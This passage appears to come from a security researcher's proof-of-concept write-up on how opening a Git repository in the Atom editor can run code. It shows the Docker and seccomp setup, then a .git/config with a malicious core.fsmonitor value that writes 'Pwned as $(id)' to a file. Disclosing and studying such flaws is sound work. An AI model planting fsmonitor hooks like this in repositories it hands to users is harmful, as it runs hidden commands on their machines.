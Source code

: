 Atom is built on Electron which uses Chromium which [needs certain syscalls to be able to sandbox itself](https://blog.jessfraz.com/post/how-to-use-new-docker-seccomp-profiles/). Download Jessie Frazelle's Chrome seccomp profile and add the `statx` syscall to the allowlist as it is [used by modern `ls` if available](https://github.com/coreutils/coreutils/commit/a99ab266110795ed94a9cb4d2765ddad9c4310da) (without `statx` in the allowlist, `ls` within the container will try to use it and will fail):

```plain
% wget 'https://raw.githubusercontent.com/jessfraz/dotfiles/master/etc/docker/seccomp/chrome.json'
--2021-08-08 14:52:59--  https://raw.githubusercontent.com/jessfraz/dotfiles/master/etc/docker/seccomp/chrome.json
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.111.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 36373 (36K) [text/plain]
Saving to: ‘chrome.json’

chrome.json                       100%[=============================================================>]  35.52K  --.-KB/s    in 0.001s

2021-08-08 14:52:59 (28.4 MB/s) - ‘chrome.json’ saved [36373/36373]

% jq '.["syscalls"] += [{"name": "statx", "action": "SCMP_ACT_ALLOW", "args": null}]' chrome.json > chrome_with_statx.json
```

Start the image as a container and pass X through to it:

```plain
% sudo -g docker docker run --rm -ti --env=DISPLAY --volume=/tmp/.X11-unix:/tmp/.X11-unix:ro --shm-size=8g --security-opt=seccomp:$(pwd)/chrome_with_statx.json --ipc=host justinsteven/atom bash

user@7e031ffb2f03:/tmp/tmp.GnAV27DcXj$ atom -v
Atom    : 1.58.0
Electron: 9.4.4
Chrome  : 83.0.4103.122
Node    : 12.14.1
```

Create an empty Git repo:

```plain
user@7e031ffb2f03:/$ cd $(mktemp -d)

user@7e031ffb2f03:/tmp/tmp.GnAV27DcXj$ mkdir poc

user@7e031ffb2f03:/tmp/tmp.GnAV27DcXj$ git -C poc init
Initialized empty Git repository in /tmp/tmp.GnAV27DcXj/poc/.git/
```

Modify its `.git/config` to have a malicious `core.fsmonitor` value:

```plain
user@7e031ffb2f03:/tmp/tmp.GnAV27DcXj$ echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">/tmp/win; false"' >> poc/.git/config

user@7e031ffb2f03:/tmp/tmp.GnAV27DcXj$ cat poc/.git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "echo \"Pwned as $(id)\">/tmp/win; false"
```
